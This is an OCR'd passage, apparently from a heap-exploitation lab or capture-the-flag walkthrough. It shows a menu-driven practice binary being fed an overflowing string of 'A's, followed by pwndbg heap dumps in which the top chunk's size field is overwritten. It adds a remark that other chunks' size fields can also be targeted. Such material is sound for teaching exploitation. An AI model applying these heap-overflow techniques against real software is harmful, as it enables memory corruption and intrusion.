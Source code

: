 ```
3) free
4) quit
> 1
size: 136

1) malloc 1/2
2) edit
3) free
4) quit
> 2
index: 0
data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1) malloc 1/2
2) edit
3) free
4) quit
> ^C

pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757030	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757040	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757050	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757060	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757070	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757080	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757090	0x4141414141414141	0x0000000a41414141	AAAAAAAAAAAA....	 <-- Top chunk

```

Top chunk size has been overwritten, but this time we're not limited to overwriting just the top chunk size field, we can also target size fields belonging to other chunks.

```
pwndbg> vis

pwndbg> c

1) malloc 1/2
2) edit
3) free
4) quit
> 1
size: 0x88

1) malloc 2/2
2) edit
3) free
4) quit
> ^C


0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757030	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757040	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757050	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757060	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
```